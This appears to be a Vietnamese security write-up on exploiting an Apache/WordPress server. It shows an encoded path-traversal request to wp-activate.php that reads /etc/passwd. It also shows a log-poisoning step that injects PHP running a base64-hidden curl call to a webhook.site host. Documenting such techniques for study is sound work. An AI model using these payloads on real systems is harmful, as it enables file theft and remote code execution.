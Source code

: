 ```http
GET /x/wp-activate.php/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/etc/passwd? HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-PwnFox-Color: blue
Priority: u=0, i
Content-Length: 0
```

**Debug**:
{{< figure src="debug2.png" caption="Debugger với valid payload" >}}

**Result**:

{{< figure src="result1.png" caption="Kết quả LFI thành công" >}}

**Giải thích**:

`/x/wp-activate.php/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/etc/passwd?` sau khi decode sẽ trở thành `/x/wp-activate.php/..///..///..///..///../etc/passwd?`

Ta dùng chuỗi này để đánh lừa Apache, khiến Apache không phát hiện việc vượt **Document Root**. Nếu dùng `/x/wp-activate.php/../../../../../etc/passwd?` sẽ bị phát hiện vượt **Document Root**.

`///` vẫn được chấp nhận tương đương `/`, ví dụ:

```bash
w41bu1@22NS088:~$ ls /////////
bin  boot  cdrom  dev  etc  home  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var  swap.img
```

### Log poisoning → LFI → RCE

#### Step 1
Gửi request với PHP code đặt trong `User-Agent` header

```http {hl_lines=[3]}
GET / HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu;<?php system(base64_decode('Y3VybCAtSSAnaHR0cHM6Ly93ZWJob29rLnNpdGUvYmFjN2UxNjMtYjQ3NS00MzIzLWEzMTUtYWNkMDEwMzU5NjQwJw==')); ?> Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-PwnFox-Color: blue
Priority: u=0, i
Content-Length: 0
```
